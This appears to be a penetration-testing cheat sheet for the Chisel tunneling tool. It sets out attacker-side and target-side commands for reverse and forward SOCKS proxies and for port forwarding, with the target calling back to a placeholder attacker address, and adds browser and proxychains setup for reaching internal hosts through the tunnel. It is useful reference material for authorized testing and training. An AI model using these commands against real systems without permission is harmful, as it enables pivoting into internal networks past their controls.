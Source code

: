 ### Chisel client/server --help

### Author: https://github.com/jpillora/chisel/releases

### Reverse SOCKS proxy

 - Attacker: ./chisel server -p LISTENING_PORT --reverse &

 - Target: ./chisel client ATTACK_IP:LISTEN_PORT R:SOCKS &

 - Target: ./chisel client ATTACK_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT

 - Target: ./chisel server -p TARGET_PORT --socks5

### Then open the web browser in Kali and configure the proxy settings.

#### 1) Go to "Manual Proxy configuration"

#### 2) On "SOCKS Host", add 127.0.0.1 on port 1080 and click the SOCKS5 radio button

#### 3) On "No proxy for", add 127.0.0.1

#### 4) On browser, connect to our target IP

### Forward SOCKS proxy

 - Target: ./chisel server -p LISTEN_PORT --socks5

 - Attacker: ./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks

## TIP:

#### Set the port in the proxychains file. (SOCKS5)

#### If you use forward proxy, set the port to whichever one you opened.

### Local Port Forward

 - Target: ./chisel server -p LISTEN_PORT

 - Attacker: ./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT

### Remote Port Forward

 - Attacker: ./chisel server -p LISTEN_PORT --reverse &

 - Target: ./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &

### Then on our machine, we browse to http://127.0.0.1:TARGET_LOCAL_PORT

## TIP:

#### Also use jobs then kill %num for chisel background processes too.

#### And use proxychains on your attacking machine
